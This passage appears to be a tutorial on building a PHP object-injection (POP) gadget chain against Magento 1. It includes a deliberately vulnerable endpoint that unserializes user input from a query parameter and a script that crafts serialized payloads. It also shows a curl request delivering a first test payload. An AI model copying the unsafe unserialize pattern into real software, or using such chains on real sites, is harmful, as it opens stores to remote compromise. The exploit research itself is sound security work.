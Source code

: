 ### The Endpoint

To start out with, we need an endpoint that unserializes untrusted user input. Because there isn't one in the latest version of Magento 1 (or is there? :wink:), let's create our own. In the webroot of a testing environment add a file named target.php with the following contents..

```php
<?php

require_once('app/Mage.php');
Mage::app();

$o = unserialize(urldecode($_GET['payload']));
echo get_class($o);
```

### Starting The POP Chain

Let's start building our POP chain. The best way to do this is to use a PHP script with stub implementations of the classes and properties you want to manipulate. For starters, let's do a sanity check that we can inject an instance of `Credis_Client`. Create a file named `gadget-builder.php` (it doesn't matter where you put it) with the following contents...

```php
<?php

class Credis_Client
{}

echo urlencode(serialize(new Credis_Client));
```

Then execute it as follows...

```
$ php gadget-builder.php
O%3A13%3A%22Credis_Client%22%3A0%3A%7B%7D
```

Now if you hit target.php you should expect to see `Credis_Client` in the response.

```
$ curl http://example.com/target.php\?payload\=O%3A13%3A%22Credis_Client%22%3A0%3A%7B%7D
Credis_Client
```

Great! We've started the POP chain successfully.

### Calling `close` on the `redis` property

Let's take a look at `Credis_Client`'s `__destruct` and `close` methods.

**`Credis_Client::__destruct`**

```php?start_inline=1
public function __destruct()
{
    if ($this->closeOnDestruct) {
        $this->close();
    }
}
```
